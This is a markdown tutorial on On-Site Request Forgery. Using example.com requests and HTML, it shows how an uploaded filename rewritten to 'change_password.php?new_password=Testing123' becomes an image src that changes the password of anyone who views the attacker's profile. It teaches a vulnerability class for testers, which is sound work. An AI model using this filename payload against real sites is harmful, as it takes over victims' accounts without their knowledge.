 # On-Site Request Forgery (OSRF)

## Introduction
On-Site Request Forgery (OSRF) is an attack that forces an end user to execute unwanted actions on a web application in which they're currently authenticated. The difference between CSRF is a vulnerability where an attacker initiates requests from domain under their control to perform actions on behalf of victim. However, in OSRF, requests originate from vulnerable application itself and we control where our requests go.

## Where to find
You can detect On-Site Request Forgery (OSRF) everywhere but there are 2 things that need to be looked up.
- Finding reflected input in `src` attribute. For example:

    ```html
    <img src="OUR_INPUT_HERE">
    <video width="400" height="200" controls src="OUR_INPUT_HERE">
    <audio src="OUR_INPUT_HERE">
    <iframe src="OUR_INPUT_HERE">
    ```
- We can control the filename (there are several requirements that must be met)
  - There is a sensitive endpoint that using the GET method
  
    ```
    GET /settings.php?remove_account=1
    Host: example.com
    User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:47.0) Gecko/20100101 Firefox/47.0
    ...
    ```

## How to exploit
Imagine there is functionality in the website where the user can change their password. Here is the request

```
GET /change_password.php?new_password=Testing123
Host: example.com
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:47.0) Gecko/20100101 Firefox/47.0
...
```

And then there is another functionality where we can control the value inside the `src` attribute, for example we can change our photo profile

```
POST /settings.php
Host: example.com
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:47.0) Gecko/20100101 Firefox/47.0
...

---------------------------829348923824
Content-Disposition: form-data; name="filename"

testingimage.jpg

---------------------------829348923824
Content-Disposition: form-data; name="uploaded"; filename="testingimage.jpg"
Content-Type: image/gif

IMAGE_CONTENT
...
```
And if we check our public profile page, our input is reflected in the `src` attribute

```html
<div id="profile">
  <p id="fullname">daffainfo</p>
  <p id="address">Indonesia</p>
  <img src="uploads/testingimage.jpg">
</div>
```

To exploit the website using this vulnerability, we need to change the filename from `testingimage.jpg` to `change_password.php?new_password=Testing123`. So, the result is

```html
<div id="profile">
  <p id="fullname">daffainfo</p>
  <p id="address">Indonesia</p>
  <img src="../change_password.php?new_password=Testing123">
</div>
```

If another user visits our profile page, their password will automatically be changed to `Testing123`


## References:
* [Portswigger](https://portswigger.net/blog/on-site-request-forgery)
* [CM2](https://blog.cm2.pw/articles/on-site-request-forgery/)